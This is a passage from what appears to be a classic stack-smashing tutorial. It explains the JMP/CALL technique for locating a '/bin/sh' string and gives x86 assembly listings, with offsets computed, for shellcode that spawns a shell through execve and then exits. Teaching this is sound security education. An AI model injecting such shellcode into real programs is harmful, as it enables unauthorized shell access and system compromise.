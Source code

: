 The problem is that we don't know where in the memory space of the 
program we are trying to exploit the code (and the string that follows 
it) will be placed.  One way around it is to use a `JMP`, and a `CALL` 
instruction.  The `JMP` and `CALL` instructions can use `IP` relative addressing, 
which means we can jump to an offset from the current `IP` without needing 
to know the exact address of where in memory we want to jump to.  If we 
place a `CALL` instruction right before the "/bin/sh" string, and a `JMP` 
instruction to it, the strings address will be pushed onto the stack as 
the return address when `CALL` is executed.  All we need then is to copy the 
return address into a register.  The `CALL` instruction can simply call the 
start of our code above.  Assuming now that `J` stands for the `JMP` instruction,
`C` for the `CALL` instruction, and s for the string,  the execution flow would 
now be:


![fig 6.](https://i.imgur.com/Y0u7cOQ.png)


With this modifications, using indexed addressing, and writing down how
many bytes each instruction takes our code looks like:

		jmp    offset-to-call           # 2 bytes
		popl   %esi                     # 1 byte
		movl   %esi,array-offset(%esi)  # 3 bytes
		movb   $0x0,nullbyteoffset(%esi)# 4 bytes
		movl   $0x0,null-offset(%esi)   # 7 bytes
		movl   $0xb,%eax                # 5 bytes
		movl   %esi,%ebx                # 2 bytes
		leal   array-offset,(%esi),%ecx # 3 bytes
		leal   null-offset(%esi),%edx   # 3 bytes
		int    $0x80                    # 2 bytes
		movl   $0x1, %eax				# 5 bytes
		movl   $0x0, %ebx				# 5 bytes
		int    $0x80					# 2 bytes
		call   offset-to-popl           # 5 bytes
		/bin/sh string goes here.

Calculating the offsets from jmp to call, from call to popl, from
the string address to the array, and from the string address to the null
long word, we now have:

		jmp    0x26                     # 2 bytes
		popl   %esi                     # 1 byte
		movl   %esi,0x8(%esi)           # 3 bytes
		movb   $0x0,0x7(%esi)			# 4 bytes
		movl   $0x0,0xc(%esi)           # 7 bytes
		movl   $0xb,%eax                # 5 bytes
		movl   %esi,%ebx                # 2 bytes
		leal   0x8(%esi),%ecx           # 3 bytes
		leal   0xc(%esi),%edx           # 3 bytes
		int    $0x80                    # 2 bytes
		movl   $0x1, %eax				# 5 bytes
		movl   $0x0, %ebx				# 5 bytes
		int    $0x80					# 2 bytes
		call   -0x2b                    # 5 bytes
		.string \"/bin/sh\"				# 8 bytes
